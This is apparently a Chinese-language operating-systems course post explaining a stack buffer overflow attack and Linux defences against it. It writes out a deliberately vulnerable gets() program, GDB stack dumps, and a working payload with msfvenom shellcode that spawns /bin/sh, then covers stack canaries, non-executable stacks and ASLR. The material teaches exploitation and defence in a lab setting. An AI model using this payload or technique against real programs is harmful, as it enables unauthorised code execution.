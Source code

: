 ```yaml
---
layout: post
date: 2022-02-28
title: "Stack-smashing Attack: An Introduction"
categories: ["NJU-22020230 Operating Systems", "Material"]
tags: 
mathjax: true
---
```


本文主要介绍一段简单的栈溢出攻击代码，并简介几种 Linux 中防止栈溢出攻击的方法。

## Hack Code

> 注：为了实现的简单，受攻击的 C 程序编译时应加上如下参数：
>
> ```c
> gcc -o vuln vuln.c -fno-stack-protector -z execstack
> ```
>
> 这两个参数使得栈上数据可执行并取消了栈溢出检查。此外，我们还需要手动关闭 ASLR。

<!-- more -->

```c
// vuln.c
#include <stdio.h>
#include <string.h>

int main (int argc, char *argv[])
{
	char msg[32];
	gets(msg);
	printf("%s\n", msg);
	return 0;
}
```

`gets(msg)` 函数是一个非常危险的字符串读取函数，因为它完全无法控制会读取到几个字符，一旦读取的字符串长度超过 msg 的长度就会发生缓冲区溢出。最新版的 C 标准已经将 gets() 函数移除，fgets() 指定输入文件为 stdin 可以达到和 gets 相同的效果，不同的是 fgets() 可以指定输入长度的上限。下面介绍的 hack 代码正是利用了 gets() 不检查溢出的特性。

使用 GDB 进行调试，通过命令 `i r rsp` 和 `i r rbp` 确定栈帧的位置，通过 `x/32x $rsp` 检查栈帧附近的内容，并确定 buf[] 的首地址为 0x7fffffffdd60。

```
rsp = 0x7fffffffdd50 rbp = 0x7fffffffdd80 buf = 0x7fffffffdd60

0x7fffffffdd50:	0xffffde78	0x00007fff	0x555551a0	0x00000001
0x7fffffffdd60:	0x00000000	0x00000000	0x55555080	0x00005555
0x7fffffffdd70:	0xffffde70	0x00007fff	0x00000000	0x00000000
0x7fffffffdd80:	0x00000000	0x00000000	0xf7de9565	0x00007fff
0x7fffffffdd90:	0xffffde78	0x00007fff	0xf7fc7000	0x00000001
0x7fffffffdda0:	0x55555169	0x00005555	0xffffe209	0x00007fff
0x7fffffffddb0:	0x555551a0	0x00005555	0xace3e1b6	0x2c1321da
0x7fffffffddc0:	0x55555080	0x00005555	0x00000000	0x00000000
```

根据调用规约，在 64 位机器上，`rbp + 8` 处存放的是返回地址 0x7ffff7de9565。我们攻击的核心目标是利用 gets() 的缓冲区溢出改写返回地址，使得 main() 函数返回时可以跳转到我们的“恶意程序”上继续执行。

我们的 hack code 如下：

```
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41
\x90\xdd\xff\xff\xff\x7f\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52
\x66\x68\x2d\x63\x54\x5e\x52\xe8\x08\x00\x00\x00\x2f\x62\x69
\x6e\x2f\x73\x68\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05
```

* 第一部分是 40 个字符 A，它的目的是填充整个栈帧，一直填到返回地址之前。

* 第二部分是我们希望的返回地址，这个数值是 0x7fffffffdd90 (返回地址所在地址的下一位)。由于我们提前关闭了 ASLR，所以栈帧的地址和返回地址都是不变的，我们可以直接将这个数值硬编码在 hack code 里。

* 第三部分是一串空字符，称为 NOP sled。在本程序中是不必要的 (因为没有 ASLR)，在打开 ASLR 的情况下，一段 NOP sled 可以提高攻击成功的概率，因为我们只要让返回地址落在 NOP sled 的范围内，CPU 便会执行 nop 指令，PC 不断后移，直到来到我们的恶意代码。

* 第四部分是我们的恶意程序，我们希望打开一个新的程序 `/bin/sh`。这里笔者使用了工具 msfvenom：

    ```bash
    msfvenom -p linux/x64/exec CMD=/bin/sh -f c
    ```

    它可以自动生成一段打开 `/bin/sh` 的机器指令，并以 C 风格输出：

    ```c
    Payload size: 44 bytes
    Final size of c file: 209 bytes
    unsigned char buf[] = 
    "\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52"
    "\x66\x68\x2d\x63\x54\x5e\x52\xe8\x08\x00\x00\x00\x2f\x62\x69"
    "\x6e\x2f\x73\x68\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05";
    ```

在 GDB 中运行，设置好断点后，通过 `run < malice` 命令可以将输入重定向到我们的恶意代码。在 main() 函数返回之前，栈帧的数据如下：

```
0x7fffffffdd50:	0xffffde78	0x00007fff	0x555551a0	0x00000001
0x7fffffffdd60:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdd70:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdd80:	0x41414141	0x41414141	0xffffdd90	0x00007fff
0x7fffffffdd90:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffdda0:	0x90909090	0x90909090	0x622fb848	0x732f6e69
0x7fffffffddb0:	0x50990068	0x66525f54	0x54632d68	0x08e8525e
0x7fffffffddc0:	0x2f000000	0x2f6e6962	0x56006873	0x6a5e5457
0x7fffffffddd0:	0x050f583b	0x00000000	0x00000000	0x00000000
```

可以看到 buf 前半部分都是 A，后面跟着我们的返回地址，一段 NOP sled 后是我们的恶意代码。

继续执行，可以看到执行了一堆 push,pop 之后，最核心的三句话为：

```assembly
push $0x3b
pop $rax
syscall
```

0x3b 是 execve() 系统调用的系统调用号，执行到 syscall 后，GDB 会提示：

```bash
process 62464 is executing new program: /usr/bin/dash
```

我们的 hack code 成功运行了一个其他程序。

## Stack Canary

为了避免程序被过分容易地 hack，Linux 中有若干种栈溢出保护的机制。

Stack Canary (金丝雀) 的思路是：在创建栈帧时，在栈帧底部存放一个特殊的值，这个值被称为金丝雀，并在函数返回之前查看金丝雀是否改变。如果函数执行过程中发生了栈溢出，则金丝雀一定被覆盖了，一旦发现金丝雀被改变则直接报错。

对于之前的示例代码 `vuln.c`，如果我们在编译时不添加 `-fno-stack-protector`，观察反汇编结果，可以看到

```assembly
0000000000001189 <main>:
1189:	f3 0f 1e fa          	endbr64 
118d:	55                   	push   %rbp
118e:	48 89 e5             	mov    %rsp,%rbp
1191:	48 83 ec 40          	sub    $0x40,%rsp
1195:	89 7d cc             	mov    %edi,-0x34(%rbp)
1198:	48 89 75 c0          	mov    %rsi,-0x40(%rbp)
119c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
11a3:	00 00 
11a5:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
		......					......
11cd:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
11d1:	64 48 2b 14 25 28 00 	sub    %fs:0x28,%rdx
11d8:	00 00 
11da:	74 05                	je     11e1 <main+0x58>
11dc:	e8 9f fe ff ff       	call   1080 <__stack_chk_fail@plt>
11e1:	c9                   	leave  
11e2:	c3                   	ret    
 
```

119c 行的命令 `mov %fs:0x28, %rax` 将一个“奇妙”的数值存入 rax 寄存器，紧接着 11a5 行将这个值保存在了 `rbp - 8` 的位置，这便是金丝雀。在函数返回之前，11cd 行将金丝雀取出并在 11d1,11da 行对其值进行检查，如果不匹配则会在 11dc 行跳转到函数 __stack_chk_fail() 中。

在打开 stack canary 的情况下，直接使用我们的 hack code，便会得到

```
*** stack smashing detected ***: terminated
Program received signal SIGABRT, Aborted.
```

对抗金丝雀的技巧通常是利用一些读函数不遇到 `\0` 不停止的特性，把金丝雀的值泄漏出来，然后在进行栈溢出攻击的时候小心地处理金丝雀以骗过检查。

## Non-executable Stack

Linux 打开了 non-executable stack 用于防御栈溢出攻击。栈对应的页面的 NX bit 会被打开，表示栈上的数据不可执行。对于之前的 `vuln.c`，如果我们在编译时不加入 `-z execstack` 选项，则默认栈对应的页面都有 NX bit。此时直接使用我们的 hack code，会在跳转到 NOP sled 执行第一条 nop 指令时直接触发段错误。

对抗 non-executable stack 的方法有 return-to-libc attack。攻击者将返回地址填写为 libc 库函数的地址，利用库函数语句来完成其攻击目的。在此基础上还有 ROP (return-oriented programming)，它不是利用完整的 libc 库函数，而是抓取多个靠近 `ret` 的零碎指令片段组合起来达到目的。

## Address Space Layout Randomization (ASLR)

Linux 默认打开 ASLR，如果我们反复执行 `./vuln` ，会发现每次栈的位置都不一样，这使得我们无法准确判定需要攻击的地址。之前提到的 NOP sled 是一种可能的对抗 ASLR 的方法。

